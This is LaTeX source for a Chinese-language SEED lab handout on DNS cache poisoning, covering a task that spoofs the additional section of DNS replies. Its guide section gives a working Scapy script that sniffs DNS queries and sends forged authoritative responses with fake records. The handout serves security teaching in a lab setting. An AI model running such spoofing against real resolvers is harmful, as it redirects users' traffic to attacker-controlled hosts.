% ------------------------------------------- 
\subsection{任务 9: 针对额外部分的攻击}

在DNS答复中,有一个成为附加部分(Additional Section)的内容,用于提供附加信息。
实际上,这往往用于为某些域名提供IP地址,尤其是对于授权部分中的域名。本节的目标是
欺骗该附加部分中的条目,并查看他们是否被本地DNS服务器成功缓存。特别的,当响应对
\texttt{www.example.net}的查询时,我们将在欺骗响应中添加以下条目:


\begin{lstlisting}
;; AUTHORITY SECTION:
example.net.            259200  IN   NS   attacker32.com.
example.net.            259200  IN   NS   ns.example.net.

;; ADDITIONAL SECTION:
attacker32.com.         259200  IN   A    1.2.3.4   (*@\ding{192}@*)
ns.example.net.         259200  IN   A    5.6.7.8   (*@\ding{193}@*)
www.facebook.com.       259200  IN   A    3.4.5.6   (*@\ding{194}@*)
\end{lstlisting}

条目 \ding{192} 和条目 \ding{193} 为授权部分中的域名。 条目 \ding{194} 与响应中的任何条目都没有关联,
但它为用户提供了很大的帮助,用户不再需要去查找Facebook的IP地址。请使用Scapy来伪造这样一个DNS回复,
你的任务是查看哪些条目被成功缓存,哪些条目没被缓存,并解释原因。
 

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{下一步学习}


在本实验的DNS缓存投毒攻击中,我们假设攻击者与DNS服务器位于同一局域网,即攻击者可以嗅探到
DNS请求包。当攻击者与DNS服务器不在同一局域网,缓存投毒攻击变得更具有挑战性。如果你对这个问题
感兴趣,可以继续尝试我们的``远程DNS攻击实验''。




% *******************************************
% SECTION
% ******************************************* 
\section{指南}


我们将在本次实验中使用Scapy库进行多个任务。以下的示例代码展示了如何去嗅探一个DNS请求,并伪造
一个DNS响应,该响应中包含回答部分,含有两条记录的授权部分和含有两条记录的附加部分。



\begin{lstlisting}
#!/usr/bin/python
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,     (*@\ding{192}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
\end{lstlisting}
 

行~\ding{192} 构造了DNS包的负载,包含了DNS头和数据内容。DNS负载中的每个字段的解释如下:

 
\begin{itemize}[noitemsep]
\item \texttt{id}: 传输ID;需要与请求中的一致。
\item \texttt{qd}: 请求域名;需要与请求中的一致。
\item \texttt{aa}: 权威答复标志 (1 代表响应中包含权威答复)。
\item \texttt{rd}: 递归查询标志 (0 代表禁用递归查询)。
\item \texttt{qr}: 请求或响应比特 (1 代表响应)。
\item \texttt{qdcount}: 请求域名的个数。 
\item \texttt{ancount}: 回复记录的个数。
\item \texttt{nscount}: 授权记录的个数。
\item \texttt{arcount}: 附加记录的个数。 
\item \texttt{an}: 回复部分 
\item \texttt{ns}: 授权部分
\item \texttt{ar}: 附加部分
\end{itemize}
  


% *******************************************
% SECTION
% ******************************************* 
\section{Submission}


\seedsubmission
 

\end{document}
